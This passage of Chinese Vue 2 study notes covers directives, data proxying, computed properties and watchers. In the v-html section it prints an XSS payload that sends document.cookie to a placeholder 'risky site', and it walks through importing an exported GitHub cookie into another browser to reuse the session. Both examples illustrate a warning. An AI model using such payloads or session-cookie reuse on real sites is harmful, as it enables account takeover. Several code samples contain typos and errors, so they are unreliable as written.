       <!-- v-text会使得Vue拿到""中的值，整个替换掉div中的内容 -->
       <!-- 把所有的字符串都当成文本进行解析 -->
    </div>

    <script>
        new Vue({
            el:'#root',
            data:{
                name:'wangty',
            },
            methods:{
                
            }
        })
    </script>
</body>
```


#### v-html

v-text不解析html标签，于是相对应的就有一个指令是可以解析标签的，他就是v-html。他的用法和v-text一致，只是一个解析标签一个不解析，这里就不在赘述了。

```vue
<body>
    <div id="root">
        <div v-html="str"></div>

    </div>

    <script>
        new Vue({
            el:'#root',
            data:{
                str:'<h3>wangty</h3>',
            },
            methods:{
                
            }
        })
    </script>
</body>
```

这里讲解一个v-html使用时隐藏的一个安全性的问题

在nodejs章节里我们讲述了cookie的工作原理，这里简单说一下：

cookie简略图：

1、Chrome浏览器携带用户名、密码请求github网站

2、github服务器回应登录成功，跳转个人中心，同时携带该网站专属cookie值返回浏览器【这里的cookie为一组组的 key : value 键值对形式】

3、Chrome浏览器在其application应用的位置，分出一块内存，存储一个以该网站为分类的cookie值【浏览器是可以同时存很多个网站的cookie的。每个网站的cookie都是按照网站分类进行存储的】

4、第二次请求的时候，Chrome浏览器携带第一次返回的cookie再次请求github网站【此次不用携带密码也能正常访问】

5、github服务器回应对应的请求页面，同时携带其他页面需要的新的cookie返回浏览器【有些第二次后请求不会再携带新的cookie，有些会】


简单的来说，cookie可以当做用户名和密码来使用，解决登录验证的问题

这里我们使用两个不同的浏览器，同时安装cookie的导入导出插件【Cookie-Editor】，模拟cookie免登录的情景案例

1、Chrome浏览器打开github，登录账号。F12控制台 - 应用 - cookie - 导出



导出的cookie都是JSON格式的字符串键值对



2、Edge浏览器打开github。F12控制台 -  应用 - cookie - 导入。刷新页面



3、很容易，我们Edge成功自动登录了github并访问了个人中心



那么v-html就存在这样的安全问题

```js
//页面中某处用v-html模板解析某个标签
//标签来源于用户的某项输入

//js可以拿到所有没有加httpsOnly的cookie
document.cookie   
//若用户进行这样的输入，v-html也按照标签语法解析了，则：这种写法可以将本网站的cookie取到并跳转到其他页面，由此产生安全问题
<a href=javaScript:locatin.href="风险网站?"+document.cookie>  
```

所以 ，在网站上动态渲染任意HTML是非常危险的，容易导致`XSS攻击`（这个攻击有个好听的名字叫：模拟用户之手）

由此，除了确定无风险的，带标签的字符串模版可以使用v-html其余时候不建议使用。

#### v-cloak指令

我们来看出现的问题，当存在 js阻塞时：

script写在前面的head里	

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <!-- 该行阻塞5s则，后面的都不加载，等待改行加载完成后再执行 -->
    <script src="js/vue.js"></script>
</head>
<body>
    <div id="root">
        <div>{{str}}</div>
    </div>
</body>
    <script>
        new Vue({
            el:'#root',
            data:{
                str:'123',
            },
        })
    </script>
</html>
```

script写在后面的body最尾部

```vue
<!DOCTYPE html>
<html lang="en">
<head></head>
<body>
    <!-- 该行先进行渲染 -->
   	<!-- Vue还没有开始工作，能看到一些没被Vue编译的样式 -->
    <div id="root">
        <div>{{str}}</div>
    </div>
    
<!-- 该行阻塞5s则，前面的都加载，后面的等待该行加载完成后再执行 -->
    <script src="js/vue.js"></script>
</body>
    <script>
        new Vue({
            el:'#root',
            data:{
                str:'123',
            },
        })
    </script>
</html>
```

此时会出现页面显示未被编译的元素等待引入的js编译。为了避免出现这样不友好性的交互体验，Vue提供了一个内置命令v-cloak。

该指令在模版未被渲染的时候作为属性加载在html页面中，在Vue解析页面的时候自动删除。

该指令配合css使用，可以达到在js阻塞时，未被编译的元素均不显示。

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <!-- 配合css使用 -->
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
     <!-- v-cloak没有值，只有指令名称 -->
    <div id="root">
        <div v-cloak>{{str}}</div>
    </div>  
    <!-- 该行阻塞5s-->
    <script src="js/vue.js"></script>
</body>
<script>
        new Vue({
            el:'#root',
            data:{
                str:'123',
            },
        })
    </script>
</html>
```

#### v-once指令

v-once所在节点在初次动态渲染后，就视为静态内容。

以后数据的改变不会引起v-once所在结构的更新。可以用于优化性能。

```vue
<body>
    <div id="root">
        <!-- v-once也只有指令名，没有值 -->
        <h3 v-once>初始化的值是：{{n}}</h3>
        <h3>当前的值是：{{n}}</h3>
        <button @click="n++">点我n+1</button>
    </div>

    <script>
        new Vue({
            el:'#root',
            data:{
                n:1,
            },
        })
    </script>
</body>
```

#### v-pre指令

v-pre可以使其：1、跳过其所在节点的编译过程 2、可利用它跳过：没有使用指令语法，没有使用插值语法的节点，会加快编译。

```vue
<body>
    <div id="root">
        <!-- v-pre也只有指令名，没有值，其标注的行Vue不编译 -->
        <h3 v-pre>什么也没有</h3>

        <!-- 该行不编译，显示：当前的值是：{{n}} -->
        <h3 v-pre>当前的值是：{{n}}</h3>
        <!-- 该行正常编译，显示：当前的值是：1 -->
        <h3>当前的值是：{{n}}</h3>
        <button @click="n++">点我n+1</button>
    </div>

    <script>
        new Vue({
            el:'#root',
            data:{
                n:1,
            },
        })
    </script>
</body>
```

#### 自定义指令

原始的Vue内置指令，就是对Dom的操作进行封装。由此我们也能相对应的操作dom来实现对Vue自定义指令。

使用directives，进行自定义指令的设置

```vue
 <script>
        new Vue({
            el:'#el',
            data:{},
            directives:{
                //自定义v-big
                // 两种写法（对象式）
                big:{
                    
                },
                //两种写法（函数式）
                big:function(){

                }
            }
        })
    </script>
```

##### 自定义指令 函数式

需求：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。


```vue
<body>
    <!-- 需求1:定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。 -->
    <div id = "el">
        {{n}}
        <h3>当前的n值是：<span v-text="n">{{n}}</span></h3>
        <h3>放大10倍后的n值是：<span v-big="n">{{n}}</span></h3>
        <!-- 触发n值的改变，同时引起v-big指令的改变 -->
        <!-- v-big何时会调用big指令函数：
                1、指令与元素成功绑定时
                2、指令所在的模版被重新解析时-->
        <button @click="n++">点击n+1</button>
    </div>

    <script>
        new Vue({
            el:'#el',
            data:{
                n:1
            },
            directives:{
                //element是当前指令所在的真实DOM元素  这里为<span></span>
                //binding.value为当前指令传入的数据变量n的当前值  这里为1
                big(element,binding){
                    //操作DOM元素，修改元素值的内容
                    element.innerText = binding.value * 10
                }

	//题外话拓展：
	//console.dir(element) 可以打印显示当前元素的所有属性
	//element instanceof HTML 返回true能够验证：元素是否是HTML的实例对象，来判断是否是真实DOM
            }
        })
    </script>
</body>
```


##### 自走义指令 对象式

需求：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。

这里我们先按照函数式的正常写法，写这个需求

```vue
<!--此段代码存在问题-->
<body>
    <!-- 需求2:定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。 -->
    <div id = "el">
        <input type="text" v-fbind:value="n">
        <button @click="n++">点击n++</button>
    </div>
    <script>
        new Vue({
            el:'#el',
            data:{
                n:1
            },
            directives:{
                fbind(element,binding){
                    element.value = binding.value
                    element.focus()  //改行代码执行了，但在初始化并不生效
                }
            }
        })
    </script>
</body>
```



**问题现象：**

使用**函数式写法**，导致：初始化加载不生效，点击按钮之后生效。


原因：**执行时机不对**，元素未加载在页面上，就对元素进行了操作，导致操作语句执行无效，页面并不对应出现效果。

这里我们用原生js模仿此处的操作，阐述此现象产生的逻辑

```html
<body>
<button id="btn">点我创建一个输入框</button>
    <script type="text/javascript" >
        const btn = document.getElementById('btn')
        btn.onclick=()=>{
        	const input = document.createElement('input')
            //执行且有效果
        	input.className ='demo
        	input.value = 99
            //下面这两行代码执行但没有效果
            input.parentElement.style.backgroundColor ='skyblue'
            input.focus()
 
            document.body.appendchild(input)
            
             //放在元素加载完成后，执行且有效果
            input.parentElement.style.backgroundColor ='skyblue'
            input.focus()
    </script>
</body>
```



说明v-fbind不能像v-big一样在元素还在加载的时候就被调用。

这里需要设置v-fbind在元素加载完成的时候调用用fbind指令函数。

由此，我们引入自定义指令的对象式写法

```vue
<body>
    <!-- 需求2:定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。 -->
    <div id = "el">
        <input type="text" v-fbind:value="n">
        <button @click="n++">点击n++</button>
    </div>

    <script>
        new Vue({
            el:'#el',
            data:{
                n:1
            },
            directives:{
                fbind:{
					//Vue与我们约定俗成的在对象中规定了一些指定名称的函数，当Vue执行到某个时机时，会自动帮我们执行对应约定的名称的函数
					//下面就是几个约定时机执行的函数（注意：名字不能敲错，也不能自定义，否则不会在对应时间默认执行），我们通常把这种类型的函数称为钩子，在生命周期小节会详细描述，这里不再过多阐述。
                    //时机：当指令与元素成功绑定时
                    bind(){
                        console.log('bind');
                        element.value = binding.value
                    },
                    //时机：指令所在元素被插入页面时
                    insterted(){
                        console.log('insterted');
                        element.focus()
                    },
                    //时机：指令所在的模版被重新解析时
                    update(){
                        console.log('update');
                        element.value = binding.value
                        element.focus()
                    }
                }
            }
        })
    </script>
</body>
```


##### 自定义指令 总结

1、有个小问题：**两个单词小驼峰命名指令报错**问题 ， 如下图


这时候我们把函数名称改成小写：


这样是可以解决问题的，但很明显，不是很规范的

正常来说，类似于directives 对象中的函数，我们都默认成了简写的形式，这是导致解析时候函数大小写反复横跳的根本原因，这里我们按照正常的完整写法就不会出现问题

```html
<span v-big-nubmer="n">{{n}}</span>

<script>
 directives:{
     //写全
     'big-nubmer':function(element,binding){
                
     }
     //或者 简写一半
	'big-nubmer'(element,binding){
     
     }
</script>
```

2、指令函数里的**this指向问题**：

注意所有指令函数都不维护vm，他们均对dom元素进行直接操作，他们的this指向也均为window


3、自定义的指令同过滤器一样，定义在Vue里的，都是**局部指令**，也不能跨vue使用。

要是想跨Vue使用，同样的也需要通过Vue实体定义全局的

```vue
<script>
    <!--依旧是没有s只能一个指令一个指令的写  格式为（指令名，对象函数体）-->
    Vue.directive('big-nubmer',{
    	bind(){
        	element.innerText = binding.value * 10
            console.log(this);}  
    })
</script>
```



几个注意的点

一、定义语法:

&emsp;(1).局部指令:

&emsp;&emsp;new Vue({directives:(指令名:配置对象) }) 或者 new Vue({directives:(指令名:回调函数) }) 

&emsp;(2).全局指令:

&emsp;&emsp;Vue.directive(指令名，配置对象)    或   Vue.directive(指今名，回调喊函数)

二、配置对象中常用的3个回调:

&emsp;(1).bind:指令与元素成功绑定时调用。

&emsp;(2).inserted:指今所在元素被插入页面时调用。

&emsp;(3).update:指今所在模版结构被重新解析时调用。
三、备注:
&emsp;1.指今定义时不加`v-`。但使用时要加`v-`

&emsp;2.指令名如果是多个单词。要使用`kebab-case`命名方式(烤肉串)，不要用`camelCase`命名(驼峰)。



## 7. el与data的两种写法

我们知道，Vue实例和容器之间是通过el属性进行关联的，如果不写el，则标签引用的Vue数据不会被解析，如下面这段代码：

```vue
<!-- 如果不写el,则Vue不工作，name不被解析 -->
<div id="root">
    <h3>{{name}}</h3>
</div>

<script type="text/javascript">
    new Vue({
        //el:'#root' ,将该行代码注释，页面不解析name，且控制台不报错
        data:{
            name:'wangty',
        }
    })
</script>
```

### v.$mount('')

那么有没有什么办法能替代el，使得Vue工作呢

```vue
<div id="root">
        <h3>{{name}}</h3>
    </div>

    <script type="text/javascript">
      const v = new Vue({ //我们使用一个恒定不变的对象来承接整个Vue实例，取名叫v
            data:{
                name:'wangty',
            }
        })
      console.log(v); //打印这个v，我们能够看到整个Vue的实例对象
      v.$mount('#root') //使用Vue实例的$mount方法，指向root容器，以实现解析和挂载
    </script>
```

在控制台，这是我们第一个看见Vue的整个实例对象


通过这种写法，我们可以很容易的控制Vue解析页面的时间

```js
//让Vue等一秒钟，再进行页面的解析
setTimeout(()=>{
        v.$mount('#root')
      },1000)
```

图解


### data函数式写法

在Vue实例中，我们把data: {  }，这种写法形式称为对象式写法，花括号{}里包含的是对象属性。

除此之外，data在Vue实例里还能写成函数的形式：

```js
	new Vue({
           //data的第一种写法：对象式
            data:{
                name:'wangty',
            }
            //data的第二种写法：函数式
            data:function(){
                return{
                    name:'wangty'
                }
            }
        })
```

### 关于this

注意：这里的data函数不是我们手动调用的，是Vue帮我们调用的

在这里我们打印输入一下，data方法中的this

```js
	new Vue({
            data:function(){
            console.log("this",this); 
                return{
                    name:'wangty'
                }
            }
        })
```

这里this指向的是整个Vue实例对象


注意，如果把data写成箭头函数，例：

```js
		new Vue({
            data:()=>{
                console.log("this",this); 
                return{
                    name:'wangty'
                }
            }
        })
```

这里的this指向就会有问题，就会指向全局的window。（箭头函数是没有自己的this的，他默认就会向外去找指向，就会找到外层全局的window，当做他的this去使用）



### 简写形式

我们通常写普通的函数时，一般用（）来代替:function()，所以写成：

```js
	new Vue({
			//data:function() =====> 等价于  =====> data()
            data(){
            console.log("this",this); 
                return{
                    name:'wangty'
                }
            }
        })
```


注意：由Vue所管理的函数，一定不能写成箭头函数，例：data()，watch()，computer()等


## 8. 理解MVVM

Vue在最初的设计的时候，很大程度上参考了MVVM模型[官网解释地址](https://v2.cn.vuejs.org/v2/guide/instance.html)


1.M：模型（Model) :对应 data 中的数据
2.V：视图(View):模板
3.VM：视图模型(ViewModel)：Vue 实例对象



这块注意有个现象：写在data里的属性，会同步出现在Vue实例对象的属性里面，原理我们在数据代理时会进行阐述。


同时{{  }}中，Vue实体内中能够看到的所有属性，也能够使用

【Vue实体内的所有属性，Vue模板都可以使用】

例如：

```vue
<h1>{{$options}}</h1>
<h1>{{$emit}}</h1>
<h1>{{_c}}</h1>
```


## 9. Object.defineProperty

数据劫持、数据代理、计算属性，的底层均用到了Object.defineProperty这个方法

作用：给一个方法或者一个对象定义属性

用法：Object.defineProperties(操作的对象名,'添加的属性名',{配置项键值对})

```vue
    <script type="text/javascript">
        let person = {
            name:'wangty',
            address:'chengdu'
        }

        //给person对象添加一个属性，叫age，值为18
        Object.defineProperty(person,'age',{
            value:18
        })
        console.log(person);
    </script>
```

注意这块添加进去的age属性，在控制台的呈现样子


这个颜色的区别，表示这个age不可以被枚举，及age这个属性不参与遍历

### enumerable配置项

```js
//我们通过Object的keys方法对其进行验证
// Object.keys()传入一个对象，将对该对象的属性名进行提取，并拼合成一个数组
console.log(Object.keys(person));
```


这里可以明显看到，没有age属性

如果想让age属性能够正常被遍历和枚举，我们引入defineProperty中的另一个配置项enumerable

```js
//enumerable可枚举的，默认为false
Object.defineProperty(person,'age',{
   value:18,
   enumerable:true
})
```


### writable配置项

我们在控制台分别操作一下name属性和age属性，再次打印，我们发现age并不能操作成功


这说明defineProperty设置的属性的属性值是不能被修改的

若要使其同正常属性一样能够修改其属性值，则需要使用另一个配置项writable

```js
//writable 能否被修改，默认为false
Object.defineProperty(person,'age',{
    value:18,
    writable:true
})
console.log(person);
```


### configurable配置项

我们对属性进行删除操作，这里同样操作name和age：


这说明defineProperty设置的属性的属性值是不能被删除的

若要使其同正常属性一样能够删除，则需要使用另一个配置项configurable

```js
//configurable能否被删除，默认为false
Object.defineProperty(person,'age',{
  value:18,
  configurable:true,
})
console.log(person);
```


### getter

**get函数**

当我有一个从变量number中获取年龄的age需求时，希望：当变量发生变化时，年龄属性也同步发生变化。

```vue
 <script type="text/javascript">
        let number = 18
        let person = {
            name:'wangty',
            address:'chengdu'
        }

        Object.defineProperty(person,'age',{
            //注意简写：
            //get:function()  ========>  等价于 get()
            get:function(){
                //当有人读取person的age属性时，get函数就会被调用,且返回值就是age的值
                return 'hello'
                //设置成变量
                //return number
            }
            })
            console.log(person);
    </script>
```

控制台效果为：


注意：每一次使用或者涉及读取age这个属性的时候，都会现调用getter


### setter

和getter相同的，有一个控制写入的配置项函数，set函数

```js
 //当有人修改person的age属性时，set函数就会被调用,且入参是修改的age值
set(value){
    console.log("有人修改age,且修改值为："+value);
    number = value
}
```


## 10.数据代理

数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）

例：

```js
<script type="text/javascript">
    let obj={x:100}
	let obj2 ={y:200}
	0bject.defineProperty(obj2,'x',{
        get(){
            return obj.x
			}，
        set(value){
        	obj.x = value
    })
</script>
```

### Vue中的数据代理

1.Vue中的数据代理:
	通过vm对象来代理data对象中属性的操作(读/号)

2.Vue中数据代理的好处:
	更加方便的操作data中的数据
3.基本原理:
	通过object.defineProperty()把data对象中所有属性添加到vm上。
	为每一个添加到vm上的属性，都指定一个getter/setter。
	在getter/setter内部去操作(读/号)data中对应的属性

这个时候我们来看MVVM小结里的Vue实例中的现象，就很好理解：


首先，Vue在设置data方法的时候，将data内的数据复制了一份，放进了Vue实例对象的_data里


此时使用设置的name，可以用_data.name。

此时还没有进行数据代理。

然后，Vue对所有的data内属性和值使用数据代理，在Vue实体中添加name等属性，自动为其设置getter、setter方法，使得：

vm._data.name = vm.name

此时：vm._data = options.data = data  【注意后面这个=成立需要将data要放到整个全局】


关于_data

注意：这块展开_data能够看到和vm中一样的结构，但他并不是数据代理，他主要用来监听data内容变化，用于影响页面解析显示


Vue中的数据劫持主要是通过ES6的`Object.defineProperty()`方法来实现。Vue会遍历data选项中的属性，并使用`Object.defineProperty()`将它们转为带有getter和setter的属性，这样Vue就能监控和响应数据的变化。

数据劫持：我们把原始的data内容，复制后增加了getter和setter方法用于数据监测的这种改写和加工操作，称为数据劫持。


## 11.Computed

### 姓名案例

```vue
 <!-- 写一个姓名案例：实现输入框输入姓名的时候，自动拼成全名 -->
    <div id="root">
        姓：<input type="text" v-model="xing">
        名：<input type="text" v-model="ming">
        <!-- 插值语法的正常写法 -->
        全名：<span>{{xing}} - {{ming}}</span>
    </div>

    <script type="text/javascript">
       new Vue({
           el:'#root',
           data(){
            return{
                xing:'wang',
                ming:'ty'
            }
           },
        })
    </script>
```

页面效果为



这个时候，当input内无限输入姓名的长度，却只取前4位时，插值的写法

```vue
<!-- 当需求越复杂，插值语法中的内容就越多 -->
<!-- 这种写法不报错，但是不推荐 -->
全名：<span>{{xing.slice(0,3)}} - {{ming}}</span>
```

在Vue官方文档中，风格指南中明确表示，组件模板中应当只包含简单表达式：



methods的写法：

```vue
<!-- fullName不加()返回的是整个函数体 -->
<!-- fullName加()返回的是return里的东西 -->
全名：<span>{{fullName()}}</span>

methods:{
    fullName(){
       //return 'wangty'
		return this.xing +'-'+this.ming
   }
}
```


### 计算属性

```vue
 全名：<span>{{fullName}}</span>

		computed:{
                fullName:{
				<!-- get原理和defineProperty一样 -->
                    get(){
                        return 'wangty'
                    }
                }
           }
```

计算属性加载后依旧会放在vm中



在Vue开发者工具的结构中也能够很清晰的区分普通属性和计算属性


Vue对计算属性的缓存处理：

```vue
    <!-- 写一个姓名案例：实现输入框输入姓名的时候，自动拼成全名 -->
    <div id="root">
        姓：<input type="text" v-model="xing">
        名：<input type="text" v-model="ming">
        全名：<span>{{fullName}}</span><!-- 第一次调用 -->
        全名：<span>{{fullName}}</span><!-- 第二次调用 -->
        全名：<span>{{fullName}}</span><!-- 第三次调用 -->
        全名：<span>{{fullName}}</span><!-- 第四次调用 -->
    </div>

    <script type="text/javascript">
      const vm =  new Vue({
            el:'#root',
           data(){
            return{
                xing:'wang',
                ming:'ty'
            }
           },
           computed:{
                fullName:{
                    //有人读取fullname时，被调用
                    get(){
                        console.log("get被调用");
                        return this.xing + '-' + this.ming
                    }
                }
           }
        })
    </script>
```

注意控制台，这个地方对get的调用只调了一次！



实际上，在第一次调用fullName属性的时候，Vue向计算属性要了返回结果，并进行了缓存处理。在后面再次请求fullName属性的时候，直接使用了缓存中的值。

那么这个缓存在数据变化时是否会对显示造成影响呢？是不会的。

计算属性中的get有两个被调用时机：

​	1、初次读取fullName属性时

​	2、当依赖的数据发生变化时

**此处就可以区分methods写法和computed写法之间的优劣了。对的，methods会反复调用！！**


```js
<script type="text/javascript">
	.....
    ,computed:{
                fullName:{
                    //有人读取fullname时，被调用
                    get(){
                        console.log("get被调用");
                        return this.xing + '-' + this.ming
                    },
                    //有人修改fullname时，被调用
                    //传入value为‘李-四’
                    set(value){
                        console.log("set被调用,被修改的值：",value);
                        const arr = value.split('-')
                        this.xing = arr[0];
                        this.ming = arr[1];
                    }
                }
           },
    .......
</script>
```

计算属性总结：
	1.定义：要用的属性不存在，要通过已有属性计算得来。
	2.原理：底层借助了objcet.defineproperty方法提供的getter和setter。
	3.get函效什么时候执行？
		（1）.初次读取时会执行一次。
		（2）.当依赖的数据发生改变时会被再次调用。
	4.优势：与methods实现相比。内部有缓存机制（复用），效奉更高，调试方便。
	5.备注：
		1.计算属性最终会出现在vm上，直接读取使用即可。
		2.如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生

### 计算属性 简写

通常情况下，我们多使用计算属性的读取，不怎么使用修改。当确定计算属性只读不改时：

我们简化计算属性的写法：

1、删除掉set方法；

2、将fullName由对象写法改成函数写法：

​	fullName:{   }   ===>   fullName:function( ){   }  ===>  fullName(){   }

​	并将这个函数，当作get函数使用

```js
<script type="text/javascript">
	.....
    ,computed:{
        fullName(){
           return this.xing + '-' + this.ming
          },
     },
    .......
</script>
```


## 12.watch

### 天气案例

```vue
    <!-- 写一个按钮点击后，实现页面天气的切换，并且输出切换前的天气和切换后的天气 -->
    <div id="root">
        <h3>今天天气很{{info}}</h3>
        <button @click="isHost = !isHost">点击切换天气</button>
    </div>

    <script type="text/javascript">
      const vm =  new Vue({
            el:'#root',
           data(){
            return{
                isHost:true,
            }
           },
           methods:{
           },
           computed:{
            info(){
               return this.isHost? '炎热':'凉爽'
            }
           }
        })
    </script>
```

效果是，点击按钮，天气能在炎热凉爽之间来回切换



注意：这样的写法，在Vue开发者工具上会有个bug

```vue
    <div id="root">
        <!-- 当我将下面这行代码 -->
		<h3>今天天气很{{info}}</h3>
        <!-- 改为 -->
        <h3>今天天气很一般</h3>
       .....
    </div>

    <script type="text/javascript">
      ....
          ,computed:{
            info(){
               return this.isHost? '炎热':'凉爽'
            }
           },
       ....
    </script>
```

此处，computed中info的属性依旧随着isHost值的变化，而计算了

但是在Vue开发者工具中却并不能提现。但是我们可以通过vm验证，计算属性是变化了的。



即，当页面没有使用计算属性和基本属性的时候，Vue开发者工具，就不更新data中被修改的基本属性的值了。但是实际上vm中的data属性值和计算属性值都是被更改了的。

此处属于Vue开发者工具的一个小坑，后续可能Vue开发者工具会进行维护。


### 监视属性

```vue
<script type="text/javascript">
      new Vue({
           .....
           ,watch:{
          		//isHost：监视谁，这儿就写谁的名字，这里指监视isHost的变化
                isHost:{
                    //handler函数什么时候调用？在isHost被修改的时候。
                    handler(newValue,oldValue){
                        console.log('isHost被修改了',newValue,oldValue);
                    },
                //初始化时是否执行handler,默认为false
                immediate:true    
            }
           },
        })
    </script>
```

控制台效果



第二种写法，可以通过Vue实例对象，实现效果都是一样的

```vue
<script type="text/javascript">
      const vm =  new Vue({
      ........
        })
	
      //注意这里监视对象要加''引号。里面的配置项内容和watch里的写法一样
        vm.$watch('isHost',{
                handler(newValue,oldValue){
                    console.log('isHost被修改了',newValue,oldValue);
                },
                //immediate:true
        })
</script>
```

监视属性watch
	1.当被监视的属性变化时，回调函数自动调用，进行相关操作
	2.监视的属性必须存在，才能进行监视！！ 没有不会报错，但是监视前后数据都是undefined
	3.监视的两种写法：
	（1）. new Vue时传入watch配置

​	（2）. 通过vm.$watch监视


### 深度监视

深度监视：
（1）Vue中的watch默认不监测对象内部值的改变（一层）。
（2）配置deep:true可以监测对象内部值改变（多层）。
备注：
（1）Vue自身可以监测对象内部值的改变，但vue提供的watch默认不可以！
（2）使用watch时根据数据的具体结构，决定是否采用深度监视。

```vue
<script type="text/javascript">
      const vm =  new Vue({
           el:'#root',
           data(){
            return{
                number:{
                    a:1,
                    b:1
                }
            }
           },
           watch:{
            //监视多级结构中，某个属性的变化
            'number.a':{
                handler(){
                    console.log('a被修改了');
                },   
            }
           },
        })
    </script>


注意：这块儿监视的number是指number：{   }对象所在的地址值
如果写成watch：{  
		number：{   }
 }
地址永远不会变化，则永远不会触发监听。
```

如果想要监视到number中任意一个值变化，那么需要加上监视穿透deep

```vue
<script type="text/javascript"> 
    .........,
           watch:{
            number:{
                deep:true,
                handler(){
                    console.log('a被修改了');
                },   
            }
           },
	.......
    </script>
```

注意：这块两个概念，Vue实例是可以监测到多层级数据中属性的变化的，这个可以在控制台通过打印vm验证。只是Vue提供给开发者的watch属性中，无法直接监测到多层级数据的变化，需要设置默认检测层级或者使用deep。


### 监视的简写形式

如果监视的对象不适用其他配置项，例如deep，immediate等，只使用handler，可简写成：

```vue
<script type="text/javascript"> 
    .........,
           watch:{
            //正常写法   
            isHost:{
              handler(newValue,oldValue){
              console.log('isHost被修改了',newValue,oldValue);
            },
            //简写，isHost对象式写成函数式，当handler用
            isHost(newValue,oldValue){
              console.log('isHost被修改了',newValue,oldValue);
            },
           },
	.......
    </script>

或者
<script type="text/javascript"> 
    .........,
        //正常写法
 		vm.$watch('isHost',{
           handler(newValue,oldValue){
              console.log('isHost被修改了',newValue,oldValue);
           },
            //deep:true
            //immediate:true
        })
   		 //简写
        vm.$watch('isHost',function(newValue,oldValue){
           console.log('isHost被修改了',newValue,oldValue);
        })
	.......
</script>

```


## 13.watch对比computed

**计算属性 vs 侦听属性**

Vue 提供了一种更通用的方式来观察和响应 Vue 实例上的数据变动：**侦听属性**。当你有一些数据需要随着其它数据变动而变动时，你很容易滥用 `watch`——特别是如果你之前使用过 AngularJS。然而，通常更好的做法是使用计算属性而不是命令式的 `watch` 回调。细想一下这个例子：

```js
<div id="demo">{{ fullName }}</div>
var vm = new Vue({
  el: '#demo',
  data: {
    firstName: 'Foo',
    lastName: 'Bar',
    fullName: 'Foo Bar'
  },
  watch: {
    firstName: function (val) {
      this.fullName = val + ' ' + this.lastName
    },
    lastName: function (val) {
      this.fullName = this.firstName + ' ' + val
    }
  }
})
```

上面代码是命令式且重复的。将它与计算属性的版本进行比较：

```js
var vm = new Vue({
  el: '#demo',
  data: {
    firstName: 'Foo',
    lastName: 'Bar'
  },
  computed: {
    fullName: function () {
      return this.firstName + ' ' + this.lastName
    }
  }
})
```

好得多了，不是吗？

**我们发现，好多功能在使用watch和computed属性都可以完成：**

不过呢。。。computed完全依赖return的内容。

但是，目前还没有办法可以让computed等待一段时间再进行return返回。

说明，计算属性中，是**不能够开启异步任务**去处理数据的。

那这个时候就需要依赖watch

watch不依赖return，watch中的数据修改，依赖于数据处理语句，例如：a = b ，给a的赋值语句

所以当有：想要某值改变，但是延迟一秒操作的时候。使用watch进行处理


**这里注意一个小细节哦：**

```js
//这里的setTimeout很自然的使用了箭头函数
//之前我们说过，尽量不适用箭头函数以免改变了方法体中this的指向
//这里：
//isHost是Vue管理下的函数。
//但是setTimeout定时器所指定的回调，是不受Vue控制的。浏览器定时器管理模块控制的。最后到时间了，也是js引擎帮我们调的函数
//------------------------------------------------------
//所以这儿，必须写成箭头函数
//如果这儿写成普通函数，js引擎会认为this是它引擎控制的整个window
//------------------------------------------------------
//原理：
//当这儿写成箭头函数的时候，由于箭头函数没有this，就会默认往外层找
//这儿setTimeout的外层是isHost函数
//而isHost函数的this就是Vue
//由此使得this的指向正常

		watch:{
            isHost(val){
                setTimeout(()=>{
                    this.isHost = val
                },1000);
            }
```

小结：

computed利watch之间的区别：
	1.computed能完成的功能，watch都可以完成。
	2.watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。
两个重要的小原则：
	1.所被vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。
	2.所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数、Promise的回调函数等，只要是没引入Vue都可以调用的函数），最好写成箭头函数，这样this的指向才是vm 或 组件实例对象

## 14.列表过滤


两种实现方式，先用watch写一遍再用computed写一遍

**watch写法：**

```vue
<body>
    <div>
        <h3>列表过滤</h1>
    </div>
    <div id="root">
        <input type="text" v-model="keyWord">
        <ul>
            <li v-for="(p,index) of filPersons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>
    <script>
        new Vue({
            el:'#root',
            computed:{

            },
            watch:{
                keyWord:{
                    immediate:true,
                    handler(val){
                        //这块注意，filter要返回满足条件的新数组
                        this.filPersons =   this.persons.filter((p)=>{
                        //indexOf对于包含的内容返回索引，不包含的内容返回-1
                        //这里注意，都包含空字符串：任何字符串.indexOf('')都返回0
                        return p.name.indexOf(val) !== -1
                        })
                    },
                }
            },
            data:{
                keyWord:'',
                persons:[
                    {id:'001',name:'马冬梅',age:18,sex:'女'},
                    {id:'002',name:'周冬雨',age:19,sex:'女'},
                    {id:'003',name:'周杰伦',age:20,sex:'男'},
                    {id:'004',name:'温兆伦',age:21,sex:'男'},
                ],
                filPersons:[]
            },
        })
    </script>
</body>
```

**computed写法：**

```vue
<body>
    <div>
        <h3>列表过滤</h1>
    </div>
    <div id="root">
        <input type="text" v-model="keyWord">
        <ul>
            <li v-for="(p,index) of filPersons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>
    <script>
        new Vue({
            el:'#root',
            computed:{
                filPersons(){
                  return  this.persons.filter((p)=>{
                       return p.name.indexOf(this.keyWord) !== -1
                    })
                }
            },
            data:{
                keyWord:'',
                persons:[
                    {id:'001',name:'马冬梅',age:18,sex:'女'},
                    {id:'002',name:'周冬雨',age:19,sex:'女'},
                    {id:'003',name:'周杰伦',age:20,sex:'男'},
                    {id:'004',name:'温兆伦',age:21,sex:'男'},
                ],
            },
        })
    </script>
</body>
```


## 15.列表排序

排序和搜索都能同时控制使用


**computed写法：**

```vue
<body>
    <div>
        <h3>列表排序</h1>
    </div>
    <div id="root">
        <input type="text" v-model="keyWord">
        <button @click = "sortType = 2">年龄升序</button>
        <button @click = "sortType = 1">年龄降序</button>
        <button @click = "sortType = 0">原顺序</button>
        <ul>
            <li v-for="(p,index) of filPersons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
